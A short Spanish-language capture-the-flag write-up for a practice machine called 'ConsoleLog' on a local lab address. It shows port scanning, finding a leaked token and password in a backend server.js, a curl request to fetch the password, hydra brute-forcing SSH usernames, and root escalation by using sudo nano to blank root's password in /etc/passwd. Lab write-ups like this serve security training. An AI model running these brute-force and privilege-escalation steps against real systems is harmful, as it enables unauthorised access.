


# ConsoleLog

*80/tcp   open  http    Apache httpd 2.4.61 ((Debian))*
*3000/tcp open  http    Node.js Express framework*
*5000/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)*

Al usar gobuster se encuentra un */backend*, donde hay un archivo llamado *server.js*, se ve que se le puede enviar una petición POST en el puerto 3000 y si el token es ***tokentraviesito***, devuelve la contraseña ***lapassworddebackupmaschingonadetodas***

Algunos endpoints requieren de pasarle el parámetro por JSON en lugar de cadena simple:
`curl -X POST http://172.17.0.2:3000/recurso/ -H "Content-Type: application/json" -d '{"token":"tokentraviesito"}'`
-X : tipo de petición HTTP
-H : tipo cabecera
-d : datos del cuerpo de la petición

Hacemos fuerza bruta para ususario con *hydra*
`hydra -L /usr/share/wordlists/rockyou.txt -p lapassworddebackupmaschingonadetodas ssh://172.17.0.2:5000`
**lovely**

## Escalada

*(ALL) NOPASSWD: /usr/bin/nano*

abriremos con nano el archivo */etc/passwd* para borrarle la contraseña al usuario root
`sudo -u root nano /etc/passwd`
*root::0:0:root:/root:/bin/bash*
`su root`
**root**
